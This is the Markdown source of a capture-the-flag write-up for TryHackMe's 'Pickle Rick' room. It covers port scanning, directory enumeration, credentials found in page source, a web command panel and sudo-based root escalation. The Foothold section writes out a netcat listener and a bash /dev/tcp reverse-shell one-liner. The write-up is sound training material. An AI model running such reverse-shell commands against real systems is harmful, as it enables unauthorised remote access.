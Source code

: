 ```yaml
---
layout: post
title: "TryHackMe - Pickle Rick Writeup"
permalink: /writeups/tryhackme/pickle-rick
author: acfirthh
---
```


![TryHackMe - Pickle Rick (Easy)](images/Pickle_Rick.jpeg)

**Date:** 11/11/2022\
**Author:** [acfirthh](https://github.com/acfirthh)

**Machine Name:** Pickle Rick\
**Difficulty:** Easy\
**Link to Machine:** [TryHackMe - Pickle Rick (Easy)](https://tryhackme.com/room/picklerick) 

## NMAP Scan
```
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-11 17:59 GMT
Nmap scan report for 10.10.32.121
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 463661da27ac12579f77e04349112ba9 (RSA)
|   256 30d8339c46870d29365ff6770c7f31c3 (ECDSA)
|_  256 f35aa4804bd71f7d68a4735ad4e9e489 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
From the NMAP scan, I can see that there is a website hosted on port 80. Browsing to the website, it seems to be a pretty uninteresting page. So I decide to do a Gobuster scan.

## Gobuster Scan
```
/index.html
/login.php
/assets
/portal.php
/robots.txt
```
Checking **/robots.txt** I see there is some text, I first thought maybe it could be a directory, but trying to browse to it returns a **404 Not Found** so I noted it down anyway, _maybe it'll come in handy later..._

**/assets** just contains images, CSS, and JavaScript files but nothing useful.

**/portal.php** redirects straight to the **/login.php** page.

At this point I thought I'd view the source code of the pages and there just happened to be some useful information waiting for me in the HTML of **/index.html**
```
Note to self, remember username!
Username: R1ckRul3s
```

Well, now we have a username, maybe we can try guess some passwords for the login page. Remembering the text we found before in **/robots.txt**, maybe that could be a possible password... SUCCESS! I'm logged in and redirected to **/portal.php**. It's a dashboard where I can run system commands on the machine.

## Foothold
Running the command `ls`, it returns a list of files in the directory of the webserver:
```
Sup3rS3cretPickl3Ingred.txt   <-- This is the first flag we need for the CTF
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

Trying to read files using `cat`, it returns that the command is blocked. Instead, I decided to get a shell on the machine.

- First I started a listener: `nc -nvlp <port>`
- Then I ran this command to get a reverse shell: `bash -c "bash -i >& /dev/tcp/<ip_address>/<port> 0>&1"`

A shell on the machine! Now I can read the **Sup3rS3cretPickl3Ingred.txt** file to get the first flag.

Changing directory to **/home** I see there are two home directories, **rick** and **ubuntu**. Moving into **/home/rick** I see the second flag needed for the CTF.

## Privilege Escalation (root)
Running `sudo -l` to check if the user had any sudo privileges returned:
```
User www-data may run the following commands on ip-10-10-153-73.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```
Fantastic! I can run any command I want, using sudo, with NO PASSWORD!

I run `sudo /bin/bash` spawns a root shell!

Changing directory to **/root**, I find the final flag needed to complete the CTF!
